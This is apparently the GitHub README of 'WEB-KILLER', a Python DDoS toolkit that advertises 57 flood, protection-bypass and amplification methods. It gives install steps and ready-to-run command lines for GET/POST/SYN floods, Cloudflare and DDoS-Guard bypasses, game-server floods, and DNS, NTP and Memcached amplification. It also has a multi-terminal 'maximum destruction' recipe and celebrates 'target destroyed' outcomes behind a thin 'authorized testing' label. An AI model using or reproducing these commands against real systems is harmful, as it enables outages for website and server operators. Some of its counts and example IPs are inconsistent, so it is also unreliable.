





<a href="https://github.com/Athexblackhat/WEB-KILLER"></a> 


# 

## 🔥 WEB-KILLER v2.1 - Comprehensive Tool Overview
***📌 EXECUTIVE SUMMARY***

WEB-KILLER is an advanced, multi-threaded network stress testing and DDoS toolkit engineered for cybersecurity professionals, penetration testers, and network security researchers. Built entirely in Python 3, it provides 57 unique attack methods spanning Layer 7 (Application), Layer 4 (Transport), and amplification vectors, making it one of the most comprehensive stress testing frameworks available.

The tool is designed to simulate real-world DDoS attack scenarios for authorized security assessments, helping organizations test their infrastructure resilience, WAF configurations, and DDoS mitigation strategies.

## 🎯 PURPOSE & PHILOSOPHY
Mission To provide security professionals with a single, unified platform for conducting authorized network stress tests, vulnerability assessments, and DDoS simulation exercises.

Core Philosophy
Education First: Every feature is designed to teach attack mechanics and defense strategies

Professional Grade: Enterprise-level performance with open-source accessibility

Responsible Use: Built-in safeguards and clear documentation for ethical usage

Continuous Evolution: Regular updates with new attack vectors and bypass techniques

## Target Audience
### 🛡️ Penetration Testers: Test client infrastructure resilience

### 🔒 Security Researchers: Study DDoS attack patterns and mitigation

### 🏢 Network Administrators: Validate DDoS protection solutions

### 🎓 Cybersecurity Students: Learn about network attacks practically

### 🏴‍☠️ Red Teams: Simulate real adversary tactics

<!-- GLITCH EFFECT BADGES -->
<p align="center">
  
  
  
  
</p>

<!-- STATS COUNTERS -->
<p align="center">
  
  
  
  
</p>

</div>

---

<!-- CINEMATIC INTRO ANIMATION -->

  


---

<!-- 🎬 CINEMATIC LIVE ATTACK DESTROYER GRAPH -->


# 


---

<!-- CINEMATIC ATTACK SEQUENCE -->


## 🎬 CINEMATIC ATTACK SEQUENCE




<!-- 3D REAL-TIME ATTACK DASHBOARD --><div align="center">
## 📊 3D REAL-TIME ATTACK DASHBOARD


</div>


## ⚡ LIVE ATTACK PROGRESS
```
ATTACK PROGRESS: [██████████████████████████████████████████████████] 100%
WEBSITE STATUS:  [███████░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░] 15% REMAINING

🟢 NORMAL ──── 🟡 DEGRADED ──── 🟠 UNSTABLE ──── 🔴 CRASHING ──── ☠️ DEAD
   0s              5s                15s               25s            30s


  TIME  │  PPS      │  THREADS  │  STATUS    │  TARGET HEALTH  │  BYPASS    
─────────────────────────────────────────────────────────────────────────────
  0s    │  0        │  800      │  🟢 ARMED   │  ████████████████│  ACTIVE    
  5s    │  45,832   │  800      │  🟡 ATTACK  │  ████████████░░░░│  WORKING   
  10s   │  78,291   │  1000     │  🟠 FLOOD   │  ████████░░░░░░░░│  BYPASSED  
  15s   │  95,241   │  1000     │  🔴 STORM   │  ████░░░░░░░░░░░░│  DOMINATED 
  20s   │  112,493  │  1000     │  💀 APOCALYPSE│ ██░░░░░░░░░░░░░│  CRUSHED  
  25s   │  98,756   │  1000     │  ☠️ FINAL   │  █░░░░░░░░░░░░░░░│  DEAD      
  30s   │  0        │  0        │  🏆 VICTORY │  ░░░░░░░░░░░░░░░░│  ☠️ RIP    
```


## WEBSITE DESTRUCTION

```
                 CINEMATIC DESTRUCTION                           


    T-0s                    T-10s                   T-30s
  
  🏢  🏢  🏢        💥  🏢  💥           💀  💀  💀 
  🏢  🏢  🏢        🏢  💥  🏢           💀  💀  💀
  🏢  🏢  🏢        💥  🏢  💥           💀  💀  💀
      
  🟢 ONLINE            🟡 DEGRADED            ☠️ DESTROYED

    T-5s                    T-20s                   T-35s

  🔥  🏢  🔥         💣  💥  💣           💀  💀  💀 
  🏢  🔥  🏢         💥  💣  💥           ☠️  RIP  ☠️ 
  🔥  🏢  🔥         💣  💥  💣           💀  💀  💀 

  🟠 UNSTABLE          🔴 CRASHING             🏆 VICTORY
```


<!-- PULSING WARNING --><div align="center"> 


## ⚔️ BATTLE STATISTICS & ANALYTICS




## 📈 PERFORMANCE METRICS



## 💪 METHOD POWER RANKING

```
POWER LEVEL:  ████████████████████ 100%
DESTRUCTION:  ████████████████████ 100%
SPEED:        ███████████████████░ 95%
STEALTH:      ██████████████████░░ 90%
BYPASS:       ███████████████████░ 95%

──────────────────────────────────────────────────────────────────────
  METHOD     │  POWER  │  SPEED    │  STEALTH  │  BYPASS   │  OVERALL    
──────────────────────────────────────────────────────────────────────
│  STOMP      │  ██████ │  ███████  │  █████    │  ██████   │  🏆 SSS     
│  CFBUAM     │  ██████ │  █████    │  ██████   │  ███████  │  💎 SS      
│  BOMB       │  ██████ │  ███████  │  ████     │  █████    │  ⭐ S       
│  MCBOT      │  █████  │  ████     │  ███████  │  █████    │  ⭐ S       
│  DGB        │  █████  │  █████    │  ██████   │  ███████  │  ⭐ S       
│  OVH-UDP    │  ██████ │  ██████   │  ████     │  ████     │  🔥 A       

```


## 🎯 FEATURE SHOWCASE




## 📡 REAL-TIME ATTACK MONITOR


```

                        🖥️ LIVE ATTACK DASHBOARD 🖥️                          

                                                                               
  🎯 TARGET:    https://example.com                    ⏱️ DURATION: 30s        
  ⚔️ METHOD:    STOMP (HTTP/2)                         🔥 THREADS: 1000        
  🌐 PROXIES:   500 (SOCKS5)                           💀 RPC: 100             
                                                                               

    📊 LIVE TRAFFIC                                                         
                                                                            
    PPS:  95,241 req/s  ████████████████████████████████████████████████    
    BPS:  125.4 MB/s    ████████████████████████████████████████████████   
    CPU:  87%           ██████████████████████████████████████████░░░░░░   
    RAM:  2.1 GB        █████████████████████████████████░░░░░░░░░░░░░░░    
    NET:  450 Mbps      ████████████████████████████████████████████████   

  🎯 TARGET HEALTH:  ░░░░░░░░░░░░░░░░ 5% REMAINING  🔴 CRITICAL              
                                                                               
  📈 ATTACK INTENSITY OVER TIME:                                              
  120K │                                    ╭─╮                              
  100K │                              ╭─────╯ ╰─╮                            
   80K │                        ╭─────╯          ╰─╮                          
   60K │                  ╭─────╯                  ╰─╮                        
   40K │            ╭─────╯                          ╰─╮                     
   20K │      ╭─────╯                                  ╰─╮                    
    0K ├──────╯                                            ╰────────────────── 
       0s    5s    10s    15s    20s    25s    30s                             
                                                                               
  🏆 STATUS: ☠️ TARGET DESTROYED - MISSION ACCOMPLISHED ☠️                    
                                                                               
```


## 🏆 VICTORY ACHIEVED

```
                    🎉 TARGET SUCCESSFULLY DESTROYED 🎉
                                                                    
             ██╗   ██╗██╗ ██████╗████████╗ ██████╗ ██████╗ ██╗   ██╗
             ██║   ██║██║██╔════╝╚══██╔══╝██╔═══██╗██╔══██╗╚██╗ ██╔╝
             ██║   ██║██║██║        ██║   ██║   ██║██████╔╝ ╚████╔╝ 
             ╚██╗ ██╔╝██║██║        ██║   ██║   ██║██╔══██╗  ╚██╔╝  
              ╚████╔╝ ██║╚██████╗   ██║   ╚██████╔╝██║  ██║   ██║   
               ╚═══╝  ╚═╝ ╚═════╝   ╚═╝    ╚═════╝ ╚═╝  ╚═╝   ╚═╝   
                                                                   
                  🏆 MISSION COMPLETE - WEBSITE DOWN 🏆              
 
    
    📊 BATTLE SUMMARY:
 
      Total Requests Sent:    2,847,391                          
      Total Data Sent:        4.2 GB                             
      Attack Duration:        30 seconds                         
      Peak PPS:               112,493 req/s                      
      Methods Used:           STOMP + CFB + SYN                  
      Proxies Used:           500 SOCKS5                         
      Target Status:          ☠️ DESTROYED                       
      Success Rate:           100%                          
```


<!-- FINAL FOOTER -->  


                                                                               
   ██╗    ██╗███████╗██████╗       ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗  
   ██║    ██║██╔════╝██╔══██╗      ██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗ 
   ██║ █╗ ██║█████╗  ██████╔╝█████╗█████╔╝ ██║██║     ██║     █████╗  ██████╔╝ 
   ██║███╗██║██╔══╝  ██╔══██╗╚════╝██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗ 
   ╚███╔███╔╝███████╗██████╔╝      ██║  ██╗██║███████╗███████╗███████╗██║  ██║ 
    ╚══╝╚══╝ ╚══════╝╚═════╝      ╚══╝ ╚══╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝ 
                                                                               
                    ⚡ ULTIMATE DDoS ATTACK TOOLKIT v2.1 ⚡                     
                    Created BY ATHEX BLACK HAT                   
                                                                               
<p> <sub>⚡ Powered by <b>ATHEX BLACK HAT</b> | © 2025 | All Rights Reserved | v2.1 PREMIUM EDITION ⚡</sub> </p></div>
```


<details>
<summary><b>📊 Click to View Competitive Advantage Graphs</b></summary>

### 3D Bar Chart Comparison
  


### Scorecard Comparison
  
  
</details>

## 📦 SYSTEM REQUIREMENTS

| Component | Minimum | Recommended | Notes |
|-----------|---------|-------------|-------|
| **CPU** | 2 Cores | 8+ Cores | More cores = more threads |
| **RAM** | 4 GB | 16+ GB | Heavy attacks need more RAM |
| **Storage** | 500 MB | 2 GB SSD | For logs and proxy lists |
| **Python** | 3.8+ | 3.11+ | Latest version recommended |
| **Network** | 10 Mbps | 1 Gbps | Faster = More PPS |
| **OS** | Windows 10/11 | Linux Ubuntu 22.04 | Linux has better RAW socket support |
| **Git** | 2.0+ | Latest | For cloning repository |

---

## ⚡ QUICK INSTALL

### Windows (PowerShell Admin)
```powershell
winget install Python.Python.3.11 Git.Git
cd $env:USERPROFILE\Desktop
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER
pip install -r requirements.txt
```

***Linux (Ubuntu/Debian):***
```
sudo apt update && sudo apt install python3 python3-pip git -y && git clone https://github.com/Athexblackhat/WEB-KILLER.git && cd WEB-KILLER && pip3 install -r requirements.txt
```

***macOS:***

```
brew install python3 git && git clone https://github.com/Athexblackhat/WEB-KILLER.git && cd WEB-KILLER && pip3 install -r requirements.txt
```

## 🪟 Windows Installation

<details> <summary><b>🖥️ Click to Expand Windows Guide</b></summary>

## powershell
***STEP 1: Install Python***

winget install Python.Python.3.11

OR download from https://python.org/downloads/

✅ CHECK "Add Python to PATH" during installation!

***STEP 2: Install Git***
```
winget install Git.Git

OR download from https://git-scm.com/download/win
```
***STEP 3: Verify***
```
python --version
pip --version
git --version
```
***STEP 4: Clone Repository***

```
cd C:\Users\%USERNAME%\Desktop
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER

```

***STEP 5: Install Dependencies***
```
pip install --upgrade pip
pip install -r requirements.txt
```

***STEP 6: Run***
```
python launcher.py
```

## For RAW socket methods, run CMD as Administrator!
</details>

## 🐧 Linux Installation
<details> <summary><b>🐧 Click to Expand Linux Guide</b></summary>

## Ubuntu/Debian
```
sudo apt update && sudo apt upgrade -y
sudo apt install python3 python3-pip python3-dev git build-essential -y
```
## CentOS/RHEL/Fedora
```
sudo dnf install python3 python3-pip python3-devel git gcc -y
```
## Arch Linux
```
sudo pacman -S python python-pip git base-devel
```
## Clone & Install
```
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER
pip3 install --upgrade pip
pip3 install -r requirements.txt
```
## Run
```
python3 launcher.py
sudo python3 launcher.py  # For RAW socket methods
```
</details>


## 🍎 macOS Installation
<details> <summary><b>🍎 Click to Expand macOS Guide</b></summary>

***Install Homebrew***
```
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
```
***Install Python & Git***
```
brew install python@3.11 git
```
***Clone & Install***
```
cd ~/Desktop
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER
pip3 install --upgrade pip
pip3 install -r requirements.txt
```
***Run***
```
python3 launcher.py
sudo python3 launcher.py  # For RAW socket methods
```
</details>


## 📱 Termux (Android)
<details> <summary><b>📱 Click to Expand Termux Guide</b></summary>
```
pkg update && pkg upgrade -y
pkg install python python-pip git -y
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER
pip install -r requirements.txt
python run.py HELP
```

*Note: RAW socket methods won't work on Android*
</details>


## ☁️ Cloud VPS
<details> <summary><b>☁️ Click to Expand VPS Guide</b></summary>

*Connect via SSH*
*ssh root@your-vps-ip*

## One-liner setup
```
apt update && apt install python3 python3-pip git screen -y
git clone https://github.com/Athexblackhat/WEB-KILLER.git
cd WEB-KILLER
pip3 install -r requirements.txt
```

## Run in screen (keeps running after disconnect)
```
screen -S attack
python3 run.py GET http://target.com 0 1000 proxies.txt 100 3600
```
## Ctrl+A, D to detach | screen -r attack to reattach
</details>


## 📋 Command Structure

### Layer 7 Attack
```
python run.py <method> <url> <proxy_type> <threads> <proxy_file> <rpc> <duration> [debug]
```
### Layer 4 Attack
```
python run.py <method> <ip:port> <threads> <duration> [proxy_type] [proxy_file]
```
### Amplification Attack
```
python run.py <method> <ip:port> <threads> <duration> <reflector_file> [debug]
```
## Tools & Commands

1. python run.py TOOLS    # Interactive tools console
2. python run.py HELP     # Display help
3. python run.py STOP     # Stop all attacks
4. python launcher.py      # Interactive launcher (beginner-friendly)


## 🔢 Parameter Reference

***Parameter	Type	Values	Example***

1.	method	String	GET, POST, CFB, TCP, UDP, SYN, DNS, etc.	GET
2.	url/ip:port	String	http://domain.com or 192.168.1.1:80	http://target.com
3.	proxy_type/threads	Integer	0-6 (proxy) or 1-1000 (threads)	0 or 500
4.	threads/duration	Integer	1-1000 (threads) or 1-3600 (seconds)	500 or 60
5.	proxy_file	String	filename.txt	proxies.txt
6.	rpc	Integer	1-100	50
7.	duration	Integer	Seconds	300
8.	debug	String	"debug"	debug

## 🎯 Proxy Types
Code	Type	Best For
0.	ALL	Maximum variety
1.	HTTP	Layer 7 attacks
4.	SOCKS4	TCP connections
5.	SOCKS5	Best anonymity
6.	RANDOM	Auto-selection
## 💣 Usage Examples

<details> <summary><b>🔥 Click to Expand All Examples</b></summary>

## BASIC ATTACKS

### GET Flood - 500 threads, 60 seconds
```
python run.py GET http://example.com 0 500 proxies.txt 50 60
```
### POST Flood - 300 threads, 120 seconds
```
python run.py POST https://api.target.com 5 300 socks5.txt 100 120
```
### TCP Flood - 50 threads, 300 seconds
```
python run.py TCP 192.168.1.100:80 50 300
```
### UDP Flood - 30 threads, 120 seconds
```
python run.py UDP 192.168.1.100:53 30 120
```
## Bypass ATTACKS

### Cloudflare Bypass
```
python run.py CFB https://cloudflare-site.com 5 800 socks5.txt 80 600 debug
```
### Cloudflare UAM Bypass
```
python run.py CFBUAM https://protected.com 5 1000 premium.txt 100 900
```
### DDoS-Guard Bypass
```
python run.py DGB https://ddosguard.com 1 500 http.txt 50 300
```
### General WAF Bypass
```
python run.py BYPASS https://waf-site.com 5 700 socks5.txt 60 600
```

## GAME SERVER ATTACKS

### Minecraft Java Server
```
python run.py MINECRAFT mc.server.com:25565 20 300
```
### Minecraft Bot Flood (with login)
```
python run.py MCBOT play.server.com:25565 50 600 5 socks5.txt
```
### FiveM Server
```
python run.py FIVEM 123.456.789.0:30120 30 300
```
### TeamSpeak 3
```
python run.py TS3 ts.server.com:9987 20 300
```

## AMPLIFICATION ATTACKS


### DNS Amplification (54x)
```
python run.py DNS target.com:53 10 300 dns_reflectors.txt
```
### NTP Amplification (556x)
```
python run.py NTP target.com:123 5 300 ntp_servers.txt
```
### Memcached Amplification (51,000x!)
```
python run.py MEM target.com:11211 5 300 memcache_servers.txt
```
### CLDAP Amplification (70x)
```
python run.py CLDAP target.com:389 5 300 cldap_servers.txt
```

## MAXIMUM DESTRUCTION (Multi-Vector)


### Terminal 1: Layer 7
```
python run.py STOMP https://target.com 5 1000 socks5.txt 100 3600 &
```
### Terminal 2: Layer 4
```
sudo python run.py SYN target.com:443 100 3600 &
```
### Terminal 3: Amplification
```
sudo python run.py DNS target.com:53 10 3600 dns_servers.txt &
```
### Terminal 4: Monitor
```
python run.py TOOLS  # Then type: DSTAT
```

</details>

## 🌐 Layer 7 - Application Layer (26 Methods)

| # | Method | Description | Bypass | Power |
|---|--------|-------------|--------|-------|
| 1 | **GET** | Standard HTTP GET flood | ⭐⭐ | ⭐⭐⭐ |
| 2 | **POST** | HTTP POST with JSON payload | ⭐⭐ | ⭐⭐⭐⭐ |
| 3 | **HEAD** | HTTP HEAD request flood | ⭐ | ⭐⭐ |
| 4 | **CFB** | Cloudflare bypass | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| 5 | **CFBUAM** | Cloudflare UAM bypass | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| 6 | **BYPASS** | General WAF bypass | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| 7 | **OVH** | OVH-specific attack | ⭐⭐⭐ | ⭐⭐⭐⭐ |
| 8 | **STRESS** | High-stress POST flood | ⭐⭐ | ⭐⭐⭐⭐⭐ |
| 9 | **DYN** | Dynamic host attack | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| 10 | **SLOW** | Slowloris-style attack | ⭐⭐⭐ | ⭐⭐⭐ |
| 11 | **NULL** | Null user agent attack | ⭐⭐⭐ | ⭐⭐ |
| 12 | **COOKIE** | Cookie manipulation | ⭐⭐⭐ | ⭐⭐⭐ |
| 13 | **PPS** | High packets per second | ⭐⭐ | ⭐⭐⭐⭐⭐ |
| 14 | **EVEN** | Even connection attack | ⭐⭐⭐ | ⭐⭐⭐ |
| 15 | **GSB** | Google Safe Browsing | ⭐⭐⭐ | ⭐⭐⭐ |
| 16 | **DGB** | DDoS-Guard bypass | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| 17 | **AVB** | Anti-virus bypass | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| 18 | **APACHE** | Apache Range attack | ⭐⭐⭐ | ⭐⭐⭐⭐ |
| 19 | **XMLRPC** | WordPress XML-RPC | ⭐⭐ | ⭐⭐⭐⭐ |
| 20 | **BOT** | Search engine bot flood | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| 21 | **BOMB** | HTTP/2 bombardier | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| 22 | **DOWNLOADER** | Slow download attack | ⭐⭐⭐ | ⭐⭐⭐ |
| 23 | **KILLER** | Process spawner | ⭐⭐ | ⭐⭐⭐⭐⭐ |
| 24 | **TOR** | Tor network attack | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ |
| 25 | **RHEX** | Random hex attack | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| 26 | **STOMP** | HTTP/2 stomp attack | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |

---

## 🔌 Layer 4 - Transport Layer (21 Methods)

| # | Method | Protocol | Description |
|---|--------|----------|-------------|
| 1 | **TCP** | TCP | TCP connection flood |
| 2 | **UDP** | UDP | UDP packet flood |
| 3 | **SYN** | TCP | SYN packet flood |
| 4 | **ICMP** | ICMP | Ping flood |
| 5 | **VSE** | UDP | Valve Source Engine |
| 6 | **TS3** | UDP | TeamSpeak 3 flood |
| 7 | **MCPE** | UDP | Minecraft PE flood |
| 8 | **FIVEM** | UDP | FiveM server query |
| 9 | **FIVEM-TOKEN** | UDP | FiveM token attack |
| 10 | **MINECRAFT** | TCP | Minecraft server flood |
| 11 | **MCBOT** | TCP | Minecraft bot flood |
| 12 | **CONNECTION** | TCP | Connection flood |
| 13 | **CPS** | TCP | Connections per second |
| 14 | **OVH-UDP** | UDP | OVH UDP flood |

---

## 📡 Amplification Attacks (8 Methods)

| # | Method | Port | Amplification Factor |
|---|--------|------|---------------------|
| 1 | **DNS** | 53 | 28-54x |
| 2 | **NTP** | 123 | 556x |
| 3 | **MEM** | 11211 | 10,000-51,000x |
| 4 | **CLDAP** | 389 | 56-70x |
| 5 | **CHAR** | 19 | 356x |
| 6 | **RDP** | 3389 | 86x |
| 7 | **ARD** | 3283 | 75x |

---

## 🛠️ Tools & Commands (10 Methods)

| # | Tool | Type | Description |
|---|------|------|-------------|
| 1 | **PING** | Tool | ICMP ping utility |
| 2 | **CHECK** | Tool | Website status checker |
| 3 | **INFO** | Tool | GeoIP information lookup |
| 4 | **TSSRV** | Tool | TeamSpeak server lookup |
| 5 | **DNS** | Tool | DNS resolution tool |
| 6 | **CFIP** | Tool | Cloudflare IP resolver |
| 7 | **DSTAT** | Tool | Network statistics monitor |
| 8 | **TOOLS** | Command | Launch interactive console |
| 9 | **HELP** | Command | Display help menu |
| 10 | **STOP** | Command | Stop all running attacks |

---

## 🏆 COMPETITIVE ADVANTAGES

| Feature | 🔥 WEB-KILLER | 🔶 MHDDoS | ◼️ LOIC | ◼️ HOIC | ◼️ Xerxes |
|---------|---------------|-----------|---------|---------|-----------|
| **Methods** | **57** | 26 | 3 | 3 | 1 |
| **Layer 7** | ✅ 26 | ✅ 26 | ❌ 0 | ✅ 3 | ❌ 0 |
| **Layer 4** | ✅ 21 | ✅ 21 | ✅ 3 | ❌ 0 | ⚠️ 1 |
| **Amplification** | ✅ 8 | ⚠️ 3 | ❌ 0 | ❌ 0 | ❌ 0 |
| **Proxy System** | ✅ Auto | ✅ Manual | ❌ No | ❌ No | ❌ No |
| **Bypass** | ✅ 10+ | ⚠️ 5 | ❌ 0 | ❌ 0 | ❌ 0 |
| **GUI/Menu** | ✅ CLI+Menu | ❌ CLI Only | ✅ GUI | ✅ GUI | ❌ CLI Only |
| **Multi-Platform** | ✅ All OS | ⚠️ Linux Only | ⚠️ Windows | ⚠️ Windows | ⚠️ Linux Only |
| **License** | MIT | MIT | Public Domain | GPL | MIT |
| **Maintained** | ✅ 2026 | ✅ 2024 | ❌ 2010 | ❌ 2012 | ❌ 2017 |
| **Overall Score** | **🏆 10/10** | 🥈 7/10 | 3/10 | 2/10 | 2/10 |

---

## 🛡️ DEFENSE BYPASS CAPABILITIES

| Protection | Bypass Method | Success Rate | Difficulty |
|------------|---------------|--------------|------------|
| **Cloudflare Free** | CFB | 95% | ⭐⭐⭐⭐ |
| **Cloudflare UAM** | CFBUAM | 93% | ⭐⭐⭐⭐⭐ |
